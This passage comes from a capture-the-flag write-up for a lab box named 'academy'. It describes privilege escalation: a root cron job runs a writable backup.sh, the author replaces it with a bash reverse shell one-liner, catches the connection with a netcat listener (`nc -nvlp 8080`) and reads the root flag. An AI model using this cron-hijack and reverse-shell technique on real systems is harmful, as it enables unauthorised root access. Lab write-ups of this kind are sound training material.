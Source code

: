 ```console
2023/01/18 07:56:01 CMD: UID=0     PID=9675   | /bin/sh -c /home/grimmie/backup.sh 
```
> So it runs on a timer

## Reverse Shell
- set up reverse shell listener on host machine `nc -nvlp 8080`
- search for "bash reverse shell one liner"
- replace content of 'backup.sh' with the one-liner, update the ip address & save
```console 
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 8080
listening on [any] 8080 ...
connect to [10.0.2.9] from (UNKNOWN) [10.0.2.10] 39074
bash: cannot set terminal process group (11174): Inappropriate ioctl for device
bash: no job control in this shell
root@academy:~# 
whoami
root
root@academy:~# cd /root
cd /root
root@academy:~# ls
ls
flag.txt
root@academy:~# cat flag.txt     
cat flag.txt
Congratz you rooted this box !
Looks like this CMS isn't so secure...
I hope you enjoyed it.
If you had any issue please let us know in the course discord.

Happy hacking !
root@academy:~# 
```

> We got Root!!!